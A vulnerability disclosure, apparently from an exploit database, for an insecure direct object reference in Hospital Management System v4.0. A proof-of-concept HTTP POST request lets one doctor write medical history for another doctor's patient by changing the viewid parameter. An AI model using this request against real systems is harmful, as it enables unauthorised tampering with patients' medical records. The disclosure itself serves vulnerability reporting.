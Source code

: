 # Exploit Title: Hospital Management System v4.0 - Insecure Direct Object Reference(IDOR)
## Date: 1/4/2024
## Vendor Homepage: https://phpgurukul.com/hospital-management-system-in-php
## Tested on: Debian Linux, Apache, Mysql
## Vendor: PHPNews
## Version: v4.0
## Exploit Description:
## Hospital Management System v4.0 suffers from IDOR - Broken Access Control Vulnerability allowing attacker doctor to add medical history for patient who is managed by other doctor(horizontal privilege escalation).

## -----------------------------------------------POC-------------------------------------------------------------------
```
POST /hospital/hms/doctor/view-patient.php?viewid=2(CHANGE HERE) HTTP/1.1
...

bp=90&bs=6.9&weight=90&temp=37&pres=AAAAA&submit=
```